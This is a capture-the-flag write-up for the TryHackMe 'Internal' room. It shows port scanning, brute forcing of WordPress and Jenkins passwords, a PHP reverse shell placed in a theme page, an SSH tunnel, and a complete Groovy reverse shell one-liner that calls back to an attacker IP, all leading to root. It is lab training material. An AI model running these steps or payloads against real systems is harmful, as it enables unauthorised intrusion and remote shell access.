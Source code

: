 ```yaml
---
title: THM - Internal
tags: [thm, wordpress, ssh tunneling, jenkins] 
---
```


<div style="text-align:center;">
<img src="https://tryhackme-images.s3.amazonaws.com/room-icons/222b3e855f88a482c1267748f76f90e0.jpeg" alt="Challenge logo" style="height:150px;">
</div>

As usual, we start with a simple nmap port scan

```
$ nmap -sC -sV 10.10.175.236

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:85:76:62:20:47 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Only two services reachable. Let's start with port 80. Nothing more interesting rather than the Apache default page. 

![](/assets/img/internal-apache-page.PNG) 

Start enumerating all hidden directories with gobuster.

```
$ gobuster dir -u http://10.10.175.236/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

/blog (Status: 301)
/wordpress (Status: 301)
/javascript (Status: 301)
/phpmyadmin (Status: 301)
/server-status (Status: 403)
```

`/blog` seems interesting. Let's navigate to it.

![](/assets/img/internal-blog.PNG)

Seems like a Wordpress blog. We can use wpscan to enumerate any Wordpress site. We start searching for any vulnerable plugin

```
$ wpscan --url http://10.10.175.236/blog/ -e vp

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
```

wpscan was able to identify that Wordpress version is `5.4.2` and found 15 possibile vulnerabilities. Wpscan was not able to find any active plugin. We start enumerating the users

```
$ wpscan --url http://10.10.175.236/blog/ -e u

[i] User(s) Identified:

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

`admin` was identified as an existing user. We can try to find his password from a common dictionary. 

```
$ wpscan --url http://10.10.175.236/blog/ --passwords /usr/share/wordlists/rockyou.txt

[!] Valid Combinations Found:
 | Username: admin, Password: my2boys
```

We successfully bruteforce `admin`'s password. Let's log in the application from the `wp-login.php` page. We get redirected to `internal.thm` and the web browser printed an error. 

![](/assets/img/internal-domain-name.PNG) 

We can solve this issue by editing `/etc/hosts` and by appending the following line

```
10.10.175.236   internal.thm
```

Refresh the page content and log in another time. Looking at the posts we can find an admin's private post with some cleartext credentials.

![](/assets/img/internal-blog-post.PNG) 

We are admin so we can spawn a reverse shell editing a PHP page from the blog. Let's navigate to the Dashboard, click on "Appearance" and then on "Theme Editor". On the right click on the 404.php page and modify its content with a PHP revshell. As usual you can find the source code from the [PentestMonkey's repository](https://github.com/pentestmonkey/php-reverse-shell). Remember to modify the IP address and the port field. Click on "Update file".

Start a netcat listener and navigate to `http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php`

```
$ nc -lvnp 4242

Listening on [0.0.0.0] (family 0, port 4242)
Connection from 10.10.175.236 58284 received!
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 07:29:33 up 41 min,  0 users,  load average: 0.00, 0.01, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

Stabilize the shell and start the privesc routine. Inside `/opt` there is a text file which contains some credentials

```
www-data@internal:/opt$ cat wp-save.txt 

Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
```

Try to substitute our user to `aubreanna`.

```
www-data@internal:/opt$ su auberanna
Password:

aubreanna@internal:/opt$ 
```

Let's get the user flag

```
aubreanna@internal:~$ cat user.txt 

THM{int3rna1_[redacted]}
```

Inside the same directory we can find this text file

```
aubreanna@internal:~$ cat jenkins.txt 
Internal Jenkins service is running on 172.17.0.2:8080
```

Take a look at which services are running on localhost

```
aubreanna@internal:/opt$  ss -tlnp

State           Recv-Q          Send-Q          Local Address:Port              Peer Address:Port                      
LISTEN          0               80              127.0.0.1:3306                  0.0.0.0:*                         
LISTEN          0               128             127.0.0.1:8080                  0.0.0.0:*                         
LISTEN          0               128             127.0.0.53%lo:53                0.0.0.0:*                         
LISTEN          0               128             0.0.0.0:22                      0.0.0.0:*                         
LISTEN          0               128             127.0.0.1:36865                 0.0.0.0:*                         
LISTEN          0               128             *:80                            *:*                         
LISTEN          0               128             [::]:22                         [::]:* 
```

We can use SSH to access Jenkins on our machine. Let's create a SSH tunnel

```
$ ssh -L 8080:localhost:8080 aurebeanna@10.10.175.236
```

We can now access Jenkins on `localhost:8080`

![](/assets/img/internal-jenkins.PNG)

We can use this Metasploit module to bruteforce the admin's password (you can also use hydra).

```
$ msfconsole -q

msf5> use auxiliary/scanner/http/jenkins_login
msf5 auxiliary(scanner/http/jenkins_login) > set RHOST localhost
msf5 auxiliary(scanner/http/jenkins_login) > set RPORT 8080
msf5 auxiliary(scanner/http/jenkins_login) > set PASS_FILE /usr/share/wordlists/rockyou.txt
msf5 auxiliary(scanner/http/jenkins_login) > set USERNAME admin
msf5 auxiliary(scanner/http/jenkins_login) > run

[+] 127.0.0.1:8080 - Login Successful: admin:spongebob
```

Let's log in. 

![](/assets/img/internal-jenkins-admin.PNG) 

Click on "Manage Jenkins" and find "Script Console". Type the following Groovy sh revshell and start a netcat listener on you machine. Remember to change the IP address and port. 

```
String host="10.10.96.106";int port=9999;String cmd="sh";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

When ready, click on "Run" and get the connection back.

```
$ nc -lvnp 9999

Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.175.236 34654 received!
```

After stabilizing our shell we can take a look if there is something useful to elevate our privileges.

```
jenkins@jenkins:/opt$ cat note.txt

Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
```

Log into the machine throught SSH with the root credentials we just found.

```
root@internal:~# cat root.txt 

THM{d0ck3r_[redacted]}
```